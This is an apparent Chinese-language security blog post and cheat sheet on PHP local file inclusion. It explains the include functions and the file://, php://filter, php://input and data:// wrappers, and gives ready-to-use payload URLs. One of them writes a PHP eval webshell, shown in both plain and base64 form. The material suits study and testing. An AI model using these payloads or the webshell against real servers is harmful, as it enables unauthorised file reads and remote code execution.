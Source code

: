 ```yaml
---
layout:     post
title:      文件包含利用
subtitle:   文件包含利用
date:       2023-04-19
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```

# 文件包含

## 相关函数

```
include()//如果出错的话，只会提示警告，会继续执行后续语句
include_once()//和上述类似，但如果一个文件已经被包含过，该函数不会再包含它，以避免函数重定义或变量重赋值等问题
require()//如果在包含的过程中有错，比如文件不存在等，则会直接退出，不执行后续语句
require_once()
```
当利用这四个函数来包含文件时，不管文件是什么类型，都会直接作为php文件进行解析。

## php伪协议
1.`file://`

对allow_url_include不做要求。
对allow_url_fopen不做要求。

file://伪协议用于访问本地文件系统

fileinclude.php?file=file://C:/Windows/win.ini

2.`php://filter`

对allow_url_include不做要求。
对allow_url_fopen不做要求。

```
fileinclude.php?file=php://filter/read=convert.base64-encode/resource=index.php

另外一种：fileinclude.php?file=php://filter/convert.base64-encode/resource=index.php
//效果跟前面的一样，少了read等关键字。在绕过一些waf时也许有用。
```

3.`php://input`可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。

allow_url_include = On。
对allow_url_fopen不做要求。
`碰到file_get_contents()就要想到用php://input绕过`因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据。
这个函数就是把一个文件里面的东西 （字符）全部return出来作为字符串
除此之外，通过实践我发现这个函数如果直接把字符串当作参数会报错，但如果包含的是http协议的网址，则会像curl命令一样，把源码读出来。而php伪协议也是识别http协议的，所以说上面php://input可以将POST的数据读过来来赋值给参数。

fileinclude.php?file=php://input

POST:
<?php phpinfo(); ?>

4.`data://`

allow_url_fopen = On
allow_url_include = On

将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的。

data:text/plain,<?php phpinfo();?>

fileinclude.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
上述base64阶码为<?php phpinfo();?>其中base64编码后加号要进行url编码为%2b


写入木马
fileinclude.php?file=data:text/plain,<?php fputs(fopen('hack.php','w'),'<?php @eval($_POST[v])?>');?>

fileinclude.php?file=data:text/plain;base64,PD9waHAgZnB1dHMoZm9wZW4oJ2hhY2sucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1Rbdl0pPz4nKTs/Pg==

包含一个不存在的文件和目录，后面加上两个../就会回到原目录

<?php ?>等价于<% %> <?=$a;?>



过滤器名称	说明	类别	版本
string.rot13	rot13转换	字符串过滤器	PHP>4.3.0
string.toupper、string.tolower	大小写互转	字符串过滤器	PHP>5.0.0
string.strip_tags	去除<?(.*?)?>的内容	string.strip_tags	PHP<7.3.0
convert.base64-encode、convert.base64-decode	base64编码转换	转换过滤器	PHP>5.0.0
convert.quoted-printable-encode、convert.quoted-printable-decode	URL编码转换	转换过滤器	PHP>5.0.0
convert.iconv.编码1.编码2	任意编码转换	转换过滤器	PHP>5.0.0
zlib.deflate、zlib.inflate	zlib压缩	压缩过滤器	PHP>5.1.0
bzip2.compress、bzip2.decompress	zlib压缩	压缩过滤器	PHP>5.1.0

iconv支持编码
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*

可以用burpsuite进行爆破
